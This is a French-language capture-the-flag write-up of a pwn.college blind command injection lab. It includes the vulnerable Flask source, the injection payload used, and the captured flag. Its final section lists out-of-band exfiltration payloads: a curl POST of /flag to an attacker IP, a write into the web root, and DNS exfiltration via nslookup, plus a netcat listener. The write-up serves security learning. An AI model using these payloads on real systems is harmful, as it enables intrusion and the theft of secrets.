


injection]

> ****Informations Générales****
> - **Plateforme :** pwn.college
> - **Catégorie :** Command Injection (Blind)
> - **Objectif :** Exécuter des commandes à distance alors que le serveur ne renvoie aucun résultat sur la page web.

---

## 1. Description du Challenge

Les développeurs ont l'habitude d'exécuter des commandes système en arrière-plan pour des calculs ou des actions internes. Dans ce type de scénario, la sortie de la commande n'est pas renvoyée à l'utilisateur : **l'attaque doit se faire de manière aveugle (*blind*).**

---

## 2. Analyse du Code Source

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/initiative", methods=["GET"])
def challenge():
    arg = flask.request.args.get("output-file", "/challenge/PWN")
    # ⚠️ Concaténation directe dans une commande touch
    command = f"touch {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,            # Interpréteur shell actif
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    # ❌ La variable 'result' n'est PAS affichée dans la page web !
    return f"""
        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form action="/initiative"><input type=text name=output-file><input type=submit value=Submit></form>
        <hr>
        <b>Ran {command}!</b><br>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
````

### Le Problème de l'Injection Aveugle

- Le code exécute bien la commande avec `shell=True` et des privilèges `root`.
    
          
- Cependant, la page se contente d'afficher un message générique : `Ran touch ...!`. Le résultat de notre commande injectée (comme `id` ou `cat /flag`) est totalement invisible sur l'interface web.
    
          



##  3. Exploitation (Cas avec accès au terminal)

Puisque nous avions un accès direct au conteneur (via le terminal pwn.college), nous avons pu contourner le problème en **redirigeant la sortie de la commande vers un fichier accessible**, puis en allant le lire nous-mêmes.

### Payload injecté dans l'URL :

```text
/challenge/PWN; cat /flag > /challenge/PWN #
```

### Récupération depuis le terminal :

```bash
hacker@web-security~cmdi-5:~$ cat /challenge/PWN 
pwn.college{wqfZsAHZLZR6yW4BuCwl6-kyvJz.QX3YTN2wSM5EjN3EzW}
```



## 💡 4. Cas Réel : Comment faire si on N'A PAS accès au terminal ? _(Blind CMDi)_

Dans un contexte réel d'audit ou de test d'intrusion externe, **tu n'as pas de terminal SSH** pour faire un `cat` du fichier. Si tu tombes sur une Blind CMDi pure, voici les méthodes universelles pour récupérer l'information :

  
  ### A. L'Exfiltration HTTP (Out-Of-Band)

Si le serveur cible a un accès sortant à Internet, tu peux lui demander d'envoyer le flag directement vers un serveur web contrôlé par l'attaquant (via `curl` ou `wget`) :

  

- **Payload :**
    
         
       
    ```text
    ; curl -X POST --data-binary @/flag http://<ton_ip_attaquant>:8000/ #
    ```
    
- **Côté attaquant :** Tu lances un écouteur simple sur ta machine (`python3 -m http.server 8000` ou `nc -lvnp 8000`) et tu récupères le flag en clair dans tes logs de requêtes HTTP !
    
      
    
### B. Le stockage dans la Racine Web (_Web Root Write_)

Si le serveur web sert des fichiers depuis un dossier public (ex: `/var/www/html/` ou le dossier courant de l'application), tu peux y copier le flag sous la forme d'un fichier `.txt` ou `.html`, puis aller le lire directement depuis ton navigateur web :

  

- **Payload :**
   
    
    ```text
    ; cat /flag > /var/www/html/loot.txt #
    ```
    
- **Ensuite :** Tu visites `http://cible/loot.txt` depuis ton navigateur pour voir le flag.
    
        

### C. L'Exfiltration DNS (Pour les environnements très filtrés)

Si le trafic HTTP sortant est bloqué par un pare-feu, mais que les requêtes DNS passent :

  
- **Payload :**
        
    
    ```text
    ; nslookup $(cat /flag | tr -d ' ').mondomaine.com #
    ```
    
- **Côté attaquant :** Ton serveur DNS personnel enregistrera la sous-requête DNS contenant le flag exfiltré sous forme de sous-domaine encodé.
